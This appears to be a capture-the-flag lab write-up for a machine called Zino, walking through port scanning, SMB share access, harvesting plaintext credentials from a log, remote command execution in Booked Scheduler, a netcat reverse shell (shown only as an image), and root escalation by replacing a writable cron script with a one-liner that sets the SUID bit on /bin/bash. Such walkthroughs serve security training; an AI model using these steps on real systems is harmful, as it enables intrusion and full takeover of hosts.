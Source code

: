 # Zino

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.64 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 09:52 +08
Nmap scan report for 192.168.157.64
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport
```

### FTP + SMB Enumeration

FTP doesn't allow for anonymous logins, but SMB does have shares we can read.&#x20;

```
$ smbmap -H 192.168.157.64         
[+] IP: 192.168.157.64:445      Name: 192.168.157.64                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        zino                                                    READ ONLY       Logs
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

We can login to `zino`:

```
$ smbclient //192.168.157.64/zino                                             
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 10 03:11:49 2020
  ..                                  D        0  Tue Apr 28 21:38:53 2020
  .bash_history                       H        0  Tue Apr 28 23:35:28 2020
  error.log                           N      265  Tue Apr 28 22:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 21:38:53 2020
  local.txt                           N       33  Sun Jul 16 09:51:53 2023
  .bashrc                             H     3526  Tue Apr 28 21:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 22:17:02 2020
  .profile                            H      807  Tue Apr 28 21:38:53 2020
  misc.log                            N      424  Tue Apr 28 22:08:15 2020
  auth.log                            N      368  Tue Apr 28 22:07:54 2020
  access.log                          N     5464  Tue Apr 28 22:07:09 2020
  ftp                                 D        0  Tue Apr 28 22:12:56 2020

                7158264 blocks of size 1024. 4725468 blocks available
```

The `misc.log` contained credentials for some software:

```
$ cat misc.log  
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

### Booked RCE

The only web port was port 8003, and it led us to this login page:

<figure><img src="../../../.gitbook/assets/image (2046).png" alt=""><figcaption></figcaption></figure>

There are some exploits for this:

```
$ searchsploit booked            
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execution (Metaspl | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (A | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directory Traversal | php/webapps/48428.txt
----------------------------------------------------------- ---------------------------------
```

We can use the credentials we got earlier to have RCE:

<figure><img src="../../../.gitbook/assets/image (2045).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell through `nc`:

<figure><img src="../../../.gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Exploit -> Root

I downloaded `linpeas.sh` onto the machine and ran a scan. It found a cronjob we could hijack:

<figure><img src="../../../.gitbook/assets/image (2034).png" alt=""><figcaption></figcaption></figure>

We can write to this file:

```
www-data@zino:/tmp$ ls -la /var/www/html/booked/cleanup.py
-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
```

Here's the script contents:

```
www-data@zino:/home/peter$ cat /var/www/html/booked/cleanup.py 
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

Since there's a `sys.exit(0)` function at the end, we cannot just append code. What we can do is just create a completely new `cleanup.py` file within that directory.&#x20;

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > cleanup.py
```

Then we can just wait for a bit for the script to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (3424).png" alt=""><figcaption></figcaption></figure>
